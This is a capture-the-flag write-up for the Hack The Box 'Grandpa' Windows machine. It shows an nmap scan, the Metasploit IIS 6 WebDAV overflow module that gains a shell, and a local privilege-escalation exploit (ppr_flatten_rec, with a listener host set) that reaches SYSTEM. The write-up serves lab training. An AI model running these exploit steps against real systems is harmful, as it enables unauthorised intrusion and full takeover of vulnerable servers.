








# Hack the box - Grandpa


&nbsp;<span style="color:#b5e853; font-weight: bold">OS:  </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.14</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Apr 17</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.14
```



There ISS 6 web server running on this machine.

## Web exploration

When we go to index page, we can identify that there is ISS web server running.



## Exploitation

Since this is old machine IIS exploit could be on metasploit

```
msfconsole
search iis
```



Comparing previous nmap scan we quickly notify webdav overflow:

```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set rhosts 10.10.10.14
run
```



We got a shell access.

## Privilege escalation

When we try to identify user this happens:



We can migrate to other process:

```
ps
migrate 1008
```



Time to explore potential privilege escalation exploits:

```
background
use post/multi/recon/local_exploit_suggester
set session 1
run
```



Machine is potentialy vulnerable to many exploits. Let's try last one:

```
use exploit/windows/local/ppr_flatten_rec
set session 1
set lhost 10.10.x.x
run
```


We are the system user!

## Capturing the flags

Time to finish this challenge:

